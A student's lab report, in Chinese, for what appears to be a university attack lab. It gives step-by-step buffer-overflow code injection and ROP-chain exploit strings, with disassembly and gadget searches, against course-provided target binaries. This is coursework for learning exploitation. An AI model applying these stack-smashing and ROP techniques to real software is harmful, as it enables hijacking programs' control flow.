







# Lab0-C Programming Lab

* 姓名：陈莹
* 专业：计算机科学与技术
* 学号：24300240197
* 实验时间：2025/11/6～2025/11/12
* 指导老师：杨哲慜
* 本次实验，我完成了所有内容。
## 目录

- [Lab0-C Programming Lab](#lab0-c-programming-lab)
  - [目录](#目录)
  - [实验目的](#实验目的)
      - [攻击ctarget和rtarget](#攻击ctarget和rtarget)
  - [实验内容](#实验内容)
    - [1. phase1](#1-phase1)
    - [2. phase2](#2-phase2)
    - [3. phase3](#3-phase3)
    - [4. phase4](#4-phase4)
    - [5. phase5](#5-phase5)
  - [实验结果](#实验结果)
  - [遇到的问题及解决办法](#遇到的问题及解决办法)
  - [实验心得](#实验心得)
  - [其他备注](#其他备注)


## 实验目的
#### 攻击ctarget和rtarget
1. phase1:注入代码实现跳转
2. phase2：注入代码实现跳转并且注入参数
3. phase3：注入代码实现跳转并且注入参数地址
4. phase4：注入代码，通过已有的代码反编译片段，实现跳转并且注入参数
5. phase4：注入代码，通过已有的代码反编译片段，实现跳转并且注入参数地址

## 实验内容

### 1. phase1
代码：
```py
(gdb) disas test
Dump of assembler code for function test:
   0x0000000000401c73 <+0>:	sub    $0x8,%rsp
   0x0000000000401c77 <+4>:	mov    $0x0,%eax
   0x0000000000401c7c <+9>:	callq  0x401acb <getbuf>
   0x0000000000401c81 <+14>:	mov    %eax,%edx
   0x0000000000401c83 <+16>:	lea    0x26e6(%rip),%rsi        # 0x404370
   0x0000000000401c8a <+23>:	mov    $0x1,%edi
   0x0000000000401c8f <+28>:	mov    $0x0,%eax
   0x0000000000401c94 <+33>:	callq  0x401170 <__printf_chk@plt>
   0x0000000000401c99 <+38>:	add    $0x8,%rsp
   0x0000000000401c9d <+42>:	retq   
End of assembler dump.
```
```py
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x0000000000401acb <+0>:	sub    $0x28,%rsp
   0x0000000000401acf <+4>:	mov    %rsp,%rdi
   0x0000000000401ad2 <+7>:	callq  0x401d46 <Gets>
   0x0000000000401ad7 <+12>:	mov    $0x1,%eax
   0x0000000000401adc <+17>:	add    $0x28,%rsp
   0x0000000000401ae0 <+21>:	retq   
End of assembler dump.
```
```py
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x0000000000401ae1 <+0>:	sub    $0x8,%rsp
```  
思路：我们要攻击的是ctarget。利用缓冲区溢出，就是程序的栈中分配某个字符数组来保存一个字符串，而输入的字符串可以包含一些可执行代码的字节编码或者一个指向攻击代码的指针覆盖返回地址。那么就能直接实现直接攻击或者在执行ret指令后跳转到攻击代码。  
先反编译test，找到getbuf，反编译getbuf，发现分配40个字节，所以直接把touch1地址填到41到48字节位置。
~~~
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
e1 1a 40 00 00 00 00 00
~~~
注意每行后面补一个空格  

截图：

### 2. phase2
```py
Dump of assembler code for function touch2:
   0x0000000000401b0f <+0>:	sub    $0x8,%rsp
```
思路：希望利用填写的40个字节的位置进行代码注入，所以先编辑注入代码，然后取得rsp进入getbuf时的地址，跳到40个字节开头进行执行

```cpp 
0000000000000000 <.text>:
   0:	48 c7 c7 0e 66 21 5d 	mov    $0x5d21660e,%rdi //让参数=cookie
   7:	68 0f 1b 40 00       	pushq  $0x401b0f //让touch2地址入栈
   c:	c3                   	retq   //返回touch2地址
```
用指令进行编译：
```bash
gcc -c l2.s
objdump -d l2.o
```
  
下行是获取rsp进入getbuf时的地址：   
  
所以答案：
~~~
48 c7 c7 0e 66 21 5d 
68 0f 1b 40 00 c3 
00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
98 92 60 55 00 00 00 00
~~~




### 3. phase3
首先明确 touch3 函数的合法输入要求,cookie是作为字符串来比较，我们要传参的内容是地址
~~~
5 → '5' (ASCII: 0x35)
d → 'd' (ASCII: 0x64)  
2 → '2' (ASCII: 0x32)
1 → '1' (ASCII: 0x31)
6 → '6' (ASCII: 0x36)
6 → '6' (ASCII: 0x36)
0 → '0' (ASCII: 0x30)
e → 'e' (ASCII: 0x65)
~~~
通过 gdb 反汇编 touch3 函数可知，其起始地址为 0x0000000000401c01（<+0>: push %rbx），该地址是后续调用函数的关键跳转目标。
```py
(gdb) disas touch3
Dump of assembler code for function touch3:
   0x0000000000401c01 <+0>:	push   %rbx

```
难点是地址， hexmatch会随机刷掉后面的栈，所以要存在高地址，存在test的栈帧里面，看看栈帧：
    
发现rsp+48字节，即0x55609298+d48（0x30） = 0x556092c8，确实是test的栈顶。  
现在构造指令：mov 指令设置第一个参数寄存器 rdi（x86-64 架构函数调用约定中，rdi 用于传递第一个参数），再将 touch3 地址压栈，最后通过 ret 指令跳转执行 touch3。但原 Gadget 中 rdi 指向的 0x556092e0 并非目标字符串的存储地址，需修正参数地址以匹配合法输入。  

```cpp
movq $0x556092c8,%rdi
pushq $0x401c01
ret
```

```py
l3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 e0 92 60 55 	mov    $0x556092e0,%rdi
   7:	68 01 1c 40 00       	pushq  $0x401c01
   c:	c3                   	retq   

```
答案为：
~~~
48 c7 c7 c8 92 60 55 68 01 1c 40 00 c3 
00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
98 92 60 55 00 00 00 00 
35 64 32 31 36 36 30 65 00
~~~
  
### 4. phase4
思路：本阶段的目标是通过ROP攻击调用touch2函数，并将cookie值0x5d21660e作为参数传递。  
首先，要做的是把 cookie 赋值给参数寄存器%rdi，考虑将 cookie 放在栈中，再用指令： 
~~~ 
pop %rdi
ret  
~~~
但是后来发现在farm中找不到这条指令的gadget，经过多次尝试，只好用其他寄存器进行中转，考虑用两个gadget:  
- getbuf执行ret，从栈中弹出返回地址，跳转到我们gadget01，gadget01执行，将cookie弹出，赋值给%rax.    
- 然后执行ret，继续弹出返回地址，跳转到gadget2gadget2执行，将cookie值成功赋值给参数寄存器%rdi，然后执行ret，继续弹出返回地址，跳转到touch2  
下面是找合适的gadget
```cpp
58: pop %rax  ret
0000000000401d5e <getval_401>: //这个不行，后面会破坏
  401d5e:	b8 58 89 e0 90       	mov    $0x90e08958,%eax
  401d63:	c3                   	retq 
0000000000401cd3 <getval_209>:
  401cd3:	b8 58 90 90 c3       	mov    $0xc3909058,%eax
  401cd8:	c3                   	retq   
0x401cd4

48 89 c7: move rax rdi ret
0000000000401ca4 <addval_202>:
  401ca4:	8d 87 4c 48 89 c7    	lea    -0x3876b7b4(%rdi),%eax
  401caa:	c3                   	retq   
0x401ca7
```
最后具体构造思路如下：
其中 90 表示“空”，可以忽略
~~~
40个00
0x401cd4
cookie:0x5d21660e
0x401ca7
touch2：0x401b0f
~~~
答案：
~~~
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
d4 1c 40 00 00 00 00 00 
0e 66 21 5d 00 00 00 00 
a7 1c 40 00 00 00 00 00 
0f 1b 40 00 00 00 00 00
~~~

### 5. phase5
思路：
~~~
40个无用字节
读出偏移量到寄存器1
弹出栈里面的偏移量到寄存器2
偏移量 = cookie 与第二行指令差的字节
寄存器1+寄存器2
结果存进rdi
cookie
~~~
在farm里面找到提示：
```c
/* Add two arguments */
long add_xy(long x, long y)
{
    return x+y;
}
```
根据思路构造，边构造边查找
```cpp
0x401d96 movq %rsp %rax
0x401ca7  movq %rax %rdi
0x401cd4 popl %rax
0x48  //偏移量 9行
// mov %eax esi 没有找到89 c6,找个中转
0x401d24  movl %eax %ecx
0x401d01  movl %ecx %edx
0x401d52   movl %edx %esi
0x401cdf lea    (%rdi,%rsi,1),%rax
0x401ca7 movq %rax %rdi
touch3: 0x401c01
cookie: 0x5d21660e
```
* 要注意，getbuf执行ret后相当于进行了一次pop操作，test的栈顶指针%rsp=%rsp+0x8，所以cookie相对于此时栈顶指针的偏移量是0x48而不是0x50。
  最后答案：
~~~
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
96 1d 40 00 00 00 00 00 
a7 1c 40 00 00 00 00 00
d4 1c 40 00 00 00 00 00 
48 00 00 00 00 00 00 00
24 1d 40 00 00 00 00 00 
01 1d 40 00 00 00 00 00 
52 1d 40 00 00 00 00 00 
df 1c 40 00 00 00 00 00 
a7 1c 40 00 00 00 00 00 
01 1c 40 00 00 00 00 00 
35 64 32 31 36 36 30 65 00 
~~~
下面是查找过程：
```cpp 
//48 89 e0~7
//实现 mov rsp rax
0000000000401ce4 <addval_496>:
  401ce4:	8d 87 48 89 e0 90    	lea    -0x6f1f76b8(%rdi),%eax
  401cea:	c3                   	retq 
  
0000000000401d93 <setval_480>:
  401d93:	c7 07 f4 48 89 e0    	movl   $0xe08948f4,(%rdi)
  401d99:	c3                   	retq   

lea (%rdi,%rsi,1),%rax //实现rax = rsp+偏移量
0000000000401cdf <add_xy>:
  401cdf:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  401ce3:	c3                   	retq   
// 实现 popq rax
0000000000401cd3 <getval_209>:
  401cd3:	b8 58 90 90 c3       	mov    $0xc3909058,%eax
  401cd8:	c3                   	retq   

// 48 89 c 实现movq rax ->  rdi
0000000000401ca4 <addval_202>:
  401ca4:	8d 87 4c 48 89 c7    	lea    -0x3876b7b4(%rdi),%eax
  401caa:	c3                   	retq   
0000000000401ccd <getval_275>:
  401ccd:	b8 75 48 89 c7       	mov    $0xc7894875,%eax
  401cd2:	c3                   	retq   

//48 89 f8~f 实现movq rdi -> 无
//89 c0~7 实现movl eax -> %edi  /  %ecx:89 c1
0000000000401ca4 <addval_202>:
  401ca4:	8d 87 4c 48 89 c7    	lea    -0x3876b7b4(%rdi),%eax
  401caa:	c3                   	retq   
0000000000401cb2 <setval_321>:
  401cb2:	c7 07 68 89 c7 90    	movl   $0x90c78968,(%rdi)
  401cb8:	c3                   	retq   
0000000000401d0d <setval_315>:
  401d0d:	c7 07 89 c1 30 c9    	movl   $0xc930c189,(%rdi)
  401d13:	c3                   	retq   
0000000000401d22 <addval_488>: //38 c9 是无用串，可以
  401d22:	8d 87 89 c1 38 c9    	lea    -0x36c73e77(%rdi),%eax
  401d28:	c3                   	retq   
0000000000401da8 <setval_295>:
  401da8:	c7 07 89 c1 90 c3    	movl   $0xc390c189,(%rdi)
  401dae:	c3                   	retq   

//89 d6 movl %edx %esi    84 d2:testb R, R
0000000000401d51 <getval_348>:
  401d51:	b8 89 d6 84 d2       	mov    $0xd284d689,%eax
  401d56:	c3                   	retq   

//89 ca movl %ecx %edx   20 d2 :andb R, R
0000000000401cff <setval_189>:
  401cff:	c7 07 89 ca 20 d2    	movl   $0xd220ca89,(%rdi)
  401d05:	c3                   	retq   

```

## 实验结果

（一般截图自动评分系统最终对自己的评分即可）

## 遇到的问题及解决办法

1. 遇到问题：phase1 中构造的攻击字符串无法跳转至 touch1 函数，程序始终崩溃。

   解决方案：检查发现是返回地址的字节序错误。x86-64 架构采用小端字节序，需将 touch1 的地址0x401ae1按字节反转后填入（即e1 1a 40 00 00 00 00 00），而非直接按地址顺序填写。修正后成功跳转。

2. 遇到问题：phase4 中找不到直接的pop %rdi; ret gadget，无法直接给 rdi 赋值。

   解决方案：采用寄存器中转策略，先通过pop %rax; ret（地址0x401cd4）将 cookie 值存入 rax，再通过mov %rax, %rdi; ret（地址0x401ca7）将值从 rax 传递到 rdi，最终成功调用 touch2。

3. 遇到问题：phase5 中计算字符串地址时偏移量错误，导致地址指向无效内存。
   
   解决方案：getbuf 的 ret 指令会执行一次 pop 操作，使栈指针%rsp增加 8 字节，因此实际偏移量应为0x48（而非0x50）。重新计算栈中 cookie 与字符串的相对位置，修正偏移量后成功构造有效地址。

## 实验心得
本次缓冲区溢出与 ROP 攻击实验让我对程序的栈结构、函数调用机制及系统安全有了更深入的理解。我直观体会到栈溢出的原理：当输入数据超过缓冲区大小时，可覆盖返回地址，进而控制程序执行流程。
（谈谈本次实验中，有哪些收获）

## 其他备注
无
（一般这里都写“无”就行了，假如遇到什么问题问了某某助教，助教让你先保留问题或者留个备注，可以写在这）